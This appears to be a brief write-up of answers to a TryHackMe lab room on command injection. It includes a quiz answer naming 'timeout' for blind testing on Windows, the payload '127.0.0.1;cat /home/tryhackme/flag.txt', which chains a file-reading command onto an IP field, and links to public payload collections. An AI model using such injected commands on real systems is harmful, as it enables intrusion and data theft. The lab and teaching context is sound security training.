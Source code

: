 ## Exploiting Command Injection

Q.  What payload would I use to test a **Windows** machine for blind command injection?

>A: timeout

## Practical: Command Injection (Deploy)

Payload:

`127.0.0.1;cat /home/tryhackme/flag.txt`

### Resources:
- https://github.com/payloadbox/command-injection-payload-list
- https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/command-injection.md
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md
- https://github.com/commixproject/commix
